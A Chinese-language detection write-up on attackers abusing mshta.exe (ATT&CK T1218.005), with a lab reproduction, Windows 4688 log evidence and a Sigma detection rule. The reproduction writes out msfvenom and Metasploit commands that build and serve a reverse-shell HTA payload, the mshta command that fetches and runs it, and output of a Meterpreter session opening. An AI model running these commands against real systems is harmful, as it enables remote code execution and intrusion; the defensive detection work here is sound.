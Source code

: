 # T1218-005-win-基于白名单Mshta.exe执行payload

## 来自ATT&CK的描述

Mshta.exe是一个执行微软HTA（HTML应用）的实用程序。HTA文件扩展名为.hta。HTA是独立的应用，使用与InternetExplorer相同的模型和技术来执行，但在浏览器之外执行。

攻击者可能会使用mshta.exe通过受信任的Windows实用程序来代理执行恶意.hta文件和Javascript或VBScript。已知攻击者在最初攻击阶段利用mshta.exe来执行代码的几个例子。

Mshta.exe可通过内联脚本来执行文件：mshtavbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))

也可以直接从URL执行：mshta http[:]//webserver/payload[.]hta

Mshta.exe可绕过不考虑其潜在用途的应用白名单解决方案。由于mshta.exe在InternetExplorer的安全上下文之外执行，因此它还会绕过浏览器安全设置。

## 测试案例

Mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。

说明：Mshta所在路径已被系统添加PATH环境变量中，因此，可直接执行Mshta.exe命令。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 7 默认位置：

C:\Windows\System32\mshta.exe

C:\Windows\SysWOW64\mshta.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f hta-psh -o test5.hta

替换相关信息
```

#### 执行监听

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set lhost 192.168.126.146
msf exploit(windows/misc/hta_server) > set srvhost 192.168.126.146
msf exploit(windows/misc/hta_server) > exploit
```

#### 靶机执行payload

```bash
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta  #需要安装.net Framework 3.5
```

#### 反弹shell

```bash
msf5 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://192.168.126.146:8080/Uj6Tcv.hta
[*] Server started.
msf5 exploit(windows/misc/hta_server) > [*] 192.168.126.156  hta_server - Delivering Payload
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:50232) at 2020-04-14 11:03:33 +0800
```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
事件ID： 4688
进程信息:
新进程 ID:0xb20
新进程名称:C:\Windows\System32\mshta.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x13c
进程命令行:mshta.exe  http://192.168.126.146:8080/Uj6Tcv.hta
```

## 检测规则/思路

通过进程监控来检测和分析mshta.exe的执行和参数。查找在命令行中执行原始或混淆脚本的mshta.exe。比较mshta.exe的近期调用与历史已知合法参数及已执行二进制文件来确定是否有异常和潜在的攻击活动。在mshta.exe调用之前和之后使用的命令参数也可用于确定正在执行的二进制文件的来源和目的。

### sigma规则

```yml
title: MSHTA Suspicious Execution 01
id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3
status: experimental
description: Detection for mshta.exe suspicious execution patterns sometimes involving file polyglotism
date: 2019/02/22
modified: 2019/02/22
author: Diego Perez (@darkquassar), Markus Neis, Swisscom (Improve Rule)
references:
    - http://blog.sevagas.com/?Hacking-around-HTA-files
    - https://0x00sec.org/t/clientside-exploitation-in-2018-how-pentesting-has-changed/7356
    - https://docs.microsoft.com/en-us/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script
    - https://medium.com/tsscyber/pentesting-and-hta-bypassing-powershell-constrained-language-mode-53a42856c997
tags:
    - attack.defense_evasion
    - attack.t1140
logsource:
    category: process_creation
    product: windows
falsepositives: 
    - False positives depend on scripts and administrative tools used in the monitored environment
level: high
detection:
    selection1:
        Image: '*\mshta.exe'
        CommandLine: 
            - '*vbscript*' 
            - '*.jpg*'
            - '*.png*'
            - '*.lnk*'
            # - '*.chm*'  # could be prone to false positives
            - '*.xls*'
            - '*.doc*'
            - '*.zip*'
    condition:
        selection1 
```

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1218-005

<https://attack.mitre.org/techniques/T1218/005/>

远控免杀专题(37)-白名单Mshta.exe执行payload

<http://sec.nmask.cn/article_content?a_id=d1a4d20858c9283aef9ef49d2e98352c>

检测可疑的Mshta使用情况

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/detect-suspicious-mshta-usage.md>
